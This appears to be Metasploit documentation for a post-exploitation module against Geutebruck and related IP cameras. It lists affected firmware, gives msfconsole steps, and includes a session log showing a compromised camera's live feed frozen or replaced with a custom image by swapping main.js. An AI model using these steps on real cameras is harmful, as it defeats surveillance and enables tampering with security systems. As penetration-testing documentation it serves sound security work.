 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27,
firmware version 1.12.13.2 or firmware version 1.12.14.5:

* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:

  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module will take an existing session on a vulnerable Geutebruck Camera and will allow the user to either
freeze the camera and display the last image from the video stream, display an image on the camera, or restore
 the camera back to displaying the current feed/stream.

Users can find additional details of the related vulnerabilities on the
blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps
### Freezing camera stream on the current image
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action FREEZE_CAMERA`
  6. Do: `run`
  7. The image should be frozen

### Replacing camera stream with a custom image
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action REPLACE_IMAGE`
  6. Do: `set IMAGE /local/image/path/to/upload`
  7. Do: `run`
  8. The image should be replaced by the custom one

### Restoring the current camera stream
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action RESUME_STREAM`
  6. Do: `run`
  7. The stream should be resumed

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf > use post/linux/manage/geutebruck_post_exp
msf post(linux/manage/geutebruck_post_exp) > show options

Module options (post/linux/manage/geutebruck_post_exp):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   IMAGE                     no        Full path to the local copy of the image to upload
   SESSION                   yes       The session to run this module on.


Post action:

   Name           Description
   ----           -----------
   FREEZE_CAMERA  Freeze the camera and display the last image taken from the video stream


msf post(linux/manage/geutebruck_post_exp) > show actions

Post actions:

   Name           Description
   ----           -----------
   CHANGE_IMAGE   Display an arbitrary image instead of the video stream
   FREEZE_CAMERA  Freeze the camera and display the last image taken from the video stream
   RESUME_STREAM  Resume the camera's video stream and display the current live feed

msf post(linux/manage/geutebruck_post_exp) > set IMAGE /var/randori.jpg
IMAGE => /var/randori.jpg
msf post(linux/manage/geutebruck_post_exp) > set action CHANGE_IMAGE
action => CHANGE_IMAGE
msf post(linux/manage/geutebruck_post_exp) > set session 1
session => 1
msf post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Uploading a custom image...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Done! The stream should be replaced by your image!
[*] Post module execution completed
msf post(linux/manage/geutebruck_post_exp) > set action FREEZE_CAMERA
action => FREEZE_CAMERA
msf post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Taking a snapshot of the current stream to use as the static image to freeze the stream on...
[*] Freezing the stream on the captured image...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Stream frozen!
[*] Post module execution completed
msf post(linux/manage/geutebruck_post_exp) > set action RESUME_STREAM
action => RESUME_STREAM
msf post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Resuming stream...
[*] Restoring main.js backup...
[*] Restored! Stream back to a normal state.
[*] Post module execution completed
```
